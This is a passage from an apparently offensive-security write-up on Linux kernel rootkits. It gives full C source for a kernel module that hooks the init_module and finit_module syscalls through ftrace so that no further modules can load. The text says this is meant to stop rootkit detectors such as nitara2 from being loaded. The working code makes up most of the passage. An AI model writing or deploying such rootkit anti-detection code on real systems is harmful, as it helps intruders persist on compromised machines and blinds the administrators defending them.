

## Hooking insmod

In recent years, some hidden LKM hunters, such as `nitara2`, have emerged to detect hidden Linux kernel rootkits. We can prevent these LKMs from being loaded easily by hooking up the `init_module` and `finit_module` syscall. Below is a code example.

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include "ftrace_helper.h"

MODULE_LICENSE("GPL");
MODULE_AUTHOR("matheuzsec");
MODULE_DESCRIPTION("Hooking init_module and finit_module");
MODULE_VERSION("1.0");

static asmlinkage long (*hooked_init_module)(struct file *file, const char *uargs, unsigned long flags);
static asmlinkage long (*hooked_finit_module)(struct file *file, const char *uargs, unsigned long flags);

static asmlinkage long hook_init_module(struct file *file, const char *uargs, unsigned long flags) {
    return 0;
}

static asmlinkage long hook_finit_module(struct file *file, const char *uargs, unsigned long flags) {
    return 0;
}

static struct ftrace_hook hooks[] = {
    HOOK("__x64_sys_init_module", hook_init_module, &hooked_init_module),
    HOOK("__x64_sys_finit_module", hook_finit_module, &hooked_finit_module),
};

static int __init insmod_init(void) {
    int err;

    err = fh_install_hooks(hooks, ARRAY_SIZE(hooks));
    if (err) {
        return err;
    }

    return 0;
}

static void __exit insmod_exit(void) {
    fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
}

module_init(insmod_init);
module_exit(insmod_exit);
```

<p align="center"></p>

This LKM hooks `init_module` and `finit_module`, replacing them with functions that return 0. `return 0` indicates success, but in doing so, they block the execution of the original logic necessary to load other LKMs, being thus, preventing new modules from being loaded.
